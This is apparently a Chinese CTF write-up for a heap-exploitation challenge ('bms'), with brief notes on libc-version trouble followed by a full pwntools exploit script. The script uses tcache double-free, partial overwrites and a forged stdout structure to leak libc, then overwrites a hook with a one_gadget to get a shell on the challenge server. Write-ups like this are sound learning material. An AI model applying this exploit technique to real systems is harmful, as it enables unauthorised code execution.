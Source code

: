 # bms
前面部分是让我逆向队友做的不太清楚他就说啥被耍了什么的...
最坑的一道题,充分诠释了`做题5分钟，环境2小时`...
一开始以为是`2.23`搞了半天利用控制`bss`不停清空,`unsorted bin atk + partial write` 本地不开`aslr`可以了开了`1/4096`...然后打了半天没反应..
菜鸡的我完全没注意到群里面的公告...于是改变思路`ubuntu18.04+libc2.27`.8min完成exp(虽然是`1/256`不想改了..注意布局应该可以优化到`1/16`)...结果远程还是不行...
换成`ubuntu17.10+libc.26`..之前没有这个环境从0开始下了一个..迅雷真坑...
终于打通.
## Analysis
题目在`tcache`下没啥难度就是简单的`stdout_flag_leak`
可以看看之前的一题[HITCONE2018_babytcache][2]
## exp

```python
from pwn import *
def login():
	pass
def c(c):
	p.sendlineafter(">",str(c))
def ADD(size,des='A',name="\x00"*6):
	c(1)
	p.sendafter("name:",name)
	p.sendlineafter("size",str(size))
	p.sendafter("tion:",des)
def cmd(c):
	p.sendlineafter(">\n",str(c))
def add(size,des='A',name="\x00"*6):
	cmd(1)
	p.sendafter("name:",name)
	p.sendlineafter("size",str(size))
	p.sendafter("tion:",des)
def free(idx):
	cmd(2)
	p.sendlineafter("index:",str(idx))
def FREE(idx):
	c(2)
	p.sendlineafter("index:",str(idx))
#context.log_level='debug'
#p=process('./pwn')
p=remote("90b826377a05d5e9508314e76f2f1e4e.kr-lab.com",40001)
p.sendlineafter("name:","admin")
p.sendlineafter("d:","frame")
#libc=ELF("libc-2.27.so")
add(0x68)#0
add(0x88)#1
add(0x28)#2
for x in range(8):
	free(1)
for x in range(7):
	free(2)

add(0x68,'\x20\x17')#3
free(0)
free(0)

add(0x68,'\x60\x35')#4icqf9be91c5a02ae0371b8d1bd5f06d7
add(0x68)#5
add(0x58)#6
free(6)
free(6)

add(0x58,p64(0x602060))
add(0x58)
add(0x58,p64(0)*10)

add(0x68)#0

add(0x68,p64(0xfbad1800)+p64(0)*3+'\x00')#1
p.read(8)
p.read(8)
p.read(8)
base=u64(p.read(8))-(0x7ffff7bad3e0-0x7ffff77d6000)
if base&0xfff!=0:
	p.close()
ADD(0x97,"A")#2
FREE(2)
FREE(2)
#gdb.attach(p)
log.warning(hex(base))
ADD(0x97,p64(0x3dac10+base))
ADD(0x97)
one=0xfdb8e
ADD(0x97,p64(one+base))
c(1)
p.interactive()
```